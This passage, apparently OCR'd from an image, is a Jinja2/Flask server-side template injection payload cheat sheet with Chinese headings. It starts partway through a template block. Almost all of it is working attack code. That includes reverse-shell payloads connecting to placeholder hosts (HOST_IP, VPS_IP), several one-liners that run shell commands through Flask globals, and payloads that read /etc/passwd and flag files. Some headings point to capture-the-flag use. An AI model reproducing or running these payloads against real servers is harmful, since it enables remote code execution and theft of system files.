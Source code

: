 ```python
    {% endif %}
{% endfor %}


# 命令执行_exec(无回显故反弹shell)
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'exec' in x.__init__.__globals__['__builtins__']['exec'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST_IP",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}
    {% endif %}
{% endfor %}

{{().__class__.__bases__[0].__subclasses__()[216].__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("VPS_IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}

# 命令执行_catch_warnings 
{% for x in [].__class__.__base__.__subclasses__() %}{% if 'war' in x.__name__ %}{{ x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

# catch_warnings 读取文件
{% for x in [].__class__.__base__.__subclasses__() %}{% if x.__name__=='catch_warnings' %}{{ x.__init__.__globals__['__builtins__'].open('/app/flag', 'r').read() }}{% endif %}{% endfor %}

# _frozen_importlib_external.FileLoader 读取文件
 {% for x in [].__class__.__base__.__subclasses__() %} # {% for x in [].__class__.__bases__[0].__subclasses__() %}
    {% if 'FileLoader' in x.__name__ %}
        {{ x["get_data"](0,"/etc/passwd")}}
    {% endif %}
{% endfor %}

# 其他RCE
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{joiner.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{namespace.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('ls').read)}}

```
